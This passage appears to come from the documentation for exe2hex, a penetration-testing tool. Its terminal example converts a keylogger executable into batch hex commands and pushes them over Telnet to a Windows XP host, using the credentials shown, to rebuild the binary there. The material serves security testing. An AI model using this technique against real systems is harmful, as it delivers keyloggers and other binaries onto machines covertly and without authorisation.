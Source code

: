 An example of exe2hex's Telnet mode can be seen below:

```bash
$ python3 exe2hex.py -x /usr/share/windows-binaries/klogger.exe -b klogger.bat -t
[*] exe2hex v1.5
[+] Successfully wrote (BATch) /root/klogger.bat
[+] Successfully wrote (Expect) /root/klogger-bat-telnet
$
$ expect /root/klogger-bat-telnet
Usage: ./klogger-bat-telnet <ip> <username> <password>
$
$ /root/klogger-bat-telnet 192.168.103.148 winxp pass123

spawn telnet 192.168.103.148

Trying 192.168.103.148...
Connected to 192.168.103.148.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

login: winxp
password:

*===============================================================
Welcome to Microsoft Telnet Server.
*===============================================================
C:\Documents and Settings\winxp>cd %TEMP%
C:\DOCUME~1\winxp\LOCALS~1\Temp>echo 418671.0>klogger.bat
418671.0E~1\winxp\LOCALS~1\Temp>type klogger.bat

C:\DOCUME~1\winxp\LOCALS~1\Temp>

[i] Writeable folder!

C:\DOCUME~1\winxp\LOCALS~1\Temp>del /F klogger.bat
Runs Debug, a program testing and editing tool.

DEBUG [[drive:][path]filename [testfile-parameters]]

  [drive:][path]filename  Specifies the file you want to test.
  testfile-parameters     Specifies command-line information required by
                          the file you want to test.

After Debug starts, type ? to display a list of debugging commands.

C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 1/382)
if NOT %ERRORLEVEL% == 0 echo &echo &echo &echo **** **** **** **** ****&echo *** Missing DEBUG.exe ***&echo **** **** **** **** ****&exit /b
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 2/382)
echo n klogger.0>klogger.hex
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 3/382)
echo e 0100>>klogger.hex
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 4/382)
echo 4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 d0 00 00 00 0e 1f ba 0e 00 b4 09 cd 21 b8 01 4c cd 21 54 68 69 73 20 70 72 6f 67 72 61 6d 20 63 61 6e 6e 6f 74 20 62 65 20 72 75 6e 20 69 6e 20 44 4f 53 20 6d 6f 64 65 2e 0d 0d 0a 24 00 00 00 00 00 00 00>>klogger.hex
C:\DOCUME~1\winxp\LOCALS~1\Temp>C:\DOCUME~1\winxp\LOCALS~1\Temp>   (Progress: 5/382)
echo e 0180>>klogger.hex


...SNIP...

```